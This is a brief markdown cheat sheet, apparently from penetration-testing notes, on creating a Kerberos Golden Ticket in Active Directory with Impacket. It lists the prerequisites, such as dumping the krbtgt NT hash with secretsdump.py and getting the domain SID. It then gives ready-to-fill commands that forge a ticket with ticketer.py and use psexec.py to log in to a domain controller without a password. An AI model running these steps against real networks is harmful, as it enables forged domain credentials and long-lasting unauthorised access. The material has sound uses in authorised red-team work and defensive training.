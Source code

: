 # Create Golden Ticket

**Description:** A Golden Ticket attack is a type of attack in which an adversary gains control over an Active Directory Key Distribution Service Account (KRBTGT), and uses that account to forge valid Kerberos Ticket Granting Tickets (TGTs). \ 
This attack will allow you to persist in an environment almost indefinitely.

**Requirements:**

* Impacket

## Prerequisites for creating a Golden Ticket:

1. The NT hash of the `krbtgt` account. This can be obtained from running `secretsdump.py` on the Domain Controller. 
2. Domain SID. This can be obtained by using `LookupSID.py` on the Domain Controller. 
3. Domain name. This can be gathered by querying it on the Domain Controller or will have been gathered throughout the penetration test.
4. Username to impersonate. This should be a valid user on the domain. 

## Creating a Golden Ticket on Linux with Impacket

Use ticket.py to customize, sign, and save the ticket: \
```ticketer.py -nthash [NTHASH] -domain-sid [SID] -domain [DOMAIN] [USER]```

Export the ticket: \
```export KRB5CCNAME=[USER.CCACHE]```

Authenticate with the created ticket to the domain controller: \
```psexec.py [DOMAIN]/[USER]@[HOST] -k -no-pass -dc-ip [DOMAINCONTROLLER]```

## References
* [Microsoft Active Directory Golden Ticket Attacks Explained](https://www.qomplx.com/qomplx-knowledge-golden-ticket-attacks-explained/)
